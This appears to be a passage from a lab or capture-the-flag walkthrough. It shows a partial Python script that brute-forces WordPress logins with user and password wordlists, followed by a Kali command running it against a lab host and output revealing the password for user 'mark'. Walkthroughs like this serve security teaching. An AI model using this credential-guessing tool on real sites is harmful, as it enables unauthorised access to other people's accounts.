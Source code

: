 ```python
gray = Fore.LIGHTBLACK_EX
reset = Fore.RESET

def login(user, passwd):
    data={
            'log':user,
            'pwd':passwd,
            'wp-submit':'Log+In'
            }

    try:
        r = requests.post(url, data=data)
        return r.text
    except requests.exceptions.RequestException as e:
        raise SystemExit(e)


wordlist = open(password_file).read().splitlines()

def checkLogin():
    for passwd in wordlist:
        if "ERROR" in login(user,passwd):
            print(f"{gray}Trying => {user}:{passwd}{reset:20}", end="\r")
        else:
            print(f"{green}Found => {user}:{passwd}{reset:20}")
            break

if users_file:
    users = open(users_file).read().splitlines()
    for user in users:
        checkLogin()
elif user:
    checkLogin()
```

We run the script as shown below. 

```bash
root@kali:~$ python3 wpforce.py --url http://wordy/wp-login.php -L users.txt -P passwords.txt 
Found => mark:helpdesk01
```

In the obtained result we find mark's password, and log in.
